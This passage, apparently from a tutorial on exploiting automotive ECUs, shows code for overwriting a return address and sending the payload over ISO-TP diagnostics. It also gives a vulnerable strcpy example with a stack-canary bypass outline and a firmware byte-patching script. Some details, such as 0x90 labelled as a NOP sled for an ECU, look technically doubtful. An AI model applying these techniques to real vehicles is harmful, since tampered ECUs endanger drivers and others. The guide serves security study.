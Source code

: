 ```c
// Overwrite return address at specific offset
*(uint32_t*)(payload + 68) = 0x08001234;  // Jump to shellcode

// Send via diagnostic message
send_iso_tp_message(0x7E0, payload, sizeof(payload));
```

#### Stack Canary Bypass
```c
// Modern ECUs may use stack canaries
void vulnerable_function(uint8_t* input) {
    uint32_t canary = __stack_chk_guard;
    uint8_t buffer[64];
    
    // Vulnerable operation
    strcpy(buffer, input);  // No bounds check
    
    // Canary check before return
    if (canary != __stack_chk_guard) {
        __stack_chk_fail();  // Abort on mismatch
    }
}

// Bypass: leak canary value first
// 1. Partial overwrite to leak canary
// 2. Use leaked value in full exploit
```

### Firmware Modification

#### Patch Application
```python
def apply_firmware_patch(firmware_path, patches):
    """Apply binary patches to firmware"""
    
    with open(firmware_path, 'rb') as f:
        firmware = bytearray(f.read())
    
    for patch in patches:
        offset = patch['offset']
        old_bytes = patch['old']
        new_bytes = patch['new']
        
        # Verify current bytes match expected
        current = firmware[offset:offset+len(old_bytes)]
        if current != old_bytes:
            print(f"Patch mismatch at {offset:08X}")
            continue
        
        # Apply patch
        firmware[offset:offset+len(old_bytes)] = new_bytes
        print(f"Applied patch at {offset:08X}")
    
    # Write patched firmware
    with open(firmware_path + '.patched', 'wb') as f:
        f.write(firmware)

# Example patches
patches = [
    {
        'offset': 0x8000,
        'old': b'\x01\x02\x03\x04',
        'new': b'\x90\x90\x90\x90'  # NOP sled
```